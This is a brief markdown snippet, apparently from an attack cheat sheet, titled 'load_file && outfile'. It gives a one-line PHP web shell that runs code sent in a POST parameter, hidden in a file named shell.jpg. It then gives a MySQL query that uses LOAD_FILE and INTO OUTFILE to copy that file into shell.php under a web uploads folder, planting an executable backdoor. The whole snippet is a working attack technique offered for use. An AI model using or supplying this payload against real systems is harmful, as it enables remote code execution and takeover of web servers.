 ## load_file && outfile
``` sql
# shell.jpg content is <?php @eval($_POST[value]);?>
select LOAD_FILE("D:\\www\\uploads\\images\\shell.jpg") into OUTFILE "D:\\www\\uploads\\images\\shell.php";
```
